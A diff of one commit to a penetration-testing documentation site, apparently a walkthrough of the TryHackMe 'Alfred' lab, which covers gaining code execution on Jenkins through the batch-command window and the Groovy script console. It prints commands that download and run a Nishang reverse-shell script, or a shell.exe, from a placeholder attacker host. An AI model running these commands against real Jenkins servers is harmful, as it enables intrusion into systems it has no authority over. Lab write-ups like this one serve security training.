

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/alfred.md, in a window 1280 px wide and 1400 px high, scrolled down 2293 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Initial commit

````diff
--- a/source/docs/thm/alfred.md
+++ b/source/docs/thm/alfred.md
@@ -83,10 +83,23 @@
 
 The Jenkins documentation gives me two possible ways of Remote Code Execution:
 
-1. Click "Project" to get into the prebuilt project, then click  "Configure" on the left. Scrolling down, there is a window that allows for executing Windows batch commands.
-2. Jenkins also comes with a "Script Console" administrative tool, which allows authenticated users to run scripts using Apache [Groovy](http://www.groovy-lang.org/), a Java-syntax-compatible object-oriented programming language for the Java platform. On the mainpage on the left, click on "Manage Jenkins", scroll down below the warnings, and click [script console](https://www.jenkins.io/doc/book/managing/script-console/) from the list.
+1. Click "Project" to get into the prebuilt project, then click  "Configure" on the left. Scrolling down, there is a
+window that allows for executing Windows batch commands.
 
-A PowerShell command to execute a reverse shell might work. "Nishang" contains a lot of reverse shell payloads and more.
+| ![Windows batch commands window in project configuration](../../_static/images/build.png)
+|:--:|
+| Windows batch commands window in project configuration|
+
+2. Jenkins also comes with a "Script Console" administrative tool, which allows authenticated users to run scripts
+using Apache [Groovy](http://www.groovy-lang.org/), a Java-syntax-compatible object-oriented programming language
+for the Java platform. On the mainpage on the left, click on "Manage Jenkins", scroll down below the warnings,
+and click [script console](https://www.jenkins.io/doc/book/managing/script-console/) from the list.
+
+| [![Script console](../../_static/images/script-console.png)](https://www.jenkins.io/doc/book/managing/script-console/) |
+|:--:|
+| [https://www.jenkins.io/doc/book/managing/script-console/](https://www.jenkins.io/doc/book/managing/script-console/) |
+
+A PowerShell command to execute a reverse shell might work in both. "Nishang" contains a lot of reverse shell payloads and more.
 
 If on Kali, copy `Invoke-PowershellTcp.ps1` from `/usr/share/nishang/Shells`. If not on Kali,
 [download Invoke-PowershellTcp.ps1 from Gihub](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1).
@@ -95,24 +108,16 @@
 `/usr/share/nishang/Shells`:
 
 	# python3 -m http.server 80
+    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
 
-Option 1: Execute windows batch command window
-
-Test with:
-
-	whoami
+Option 1: Execute in windows batch command window - Test with: `whoami`, and if works:
 
 ```text
 powershell iex (New-Object Net.WebClient).DownloadString(‘http://<IP address attack machine>:<http-server port>/Invoke-PowerShellTcp.ps1’);Invoke-PowerShellTcp -Reverse -IPAddress <IP address attack machine> -Port <netcat listener port>
 ```
 
-Option 2: Script console
-
-Testing remote command execution through the execute function, using "print" to display the output of the command:
-
-	print "whoami".execute().text
-
-In the script console:
+Option 2: Script console - Test using "print" to display the output of the command: `print "whoami".execute().text`,
+and if works:
 
 ```text
 print "powershell IEX(New-Object Net.WebClient).downloadString('http://<IP address attack machine>:<http-server port>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <IP address attack machine> -Port <netcat listener port>".execute().text
@@ -132,7 +137,7 @@
 
 	# python3 -m http.server 8080
 
-Download the shell.exe into the Target machine using Jenkins:
+Download the `shell.exe` to the target machine:
 
 	PS  C:\Users\bruce\Desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://[ATTACKER IP]:8888/shell.exe','shell.exe')"
 
````
Also changed, not shown: source/_static/images/build.png (added), source/_static/images/script-console.png (added).
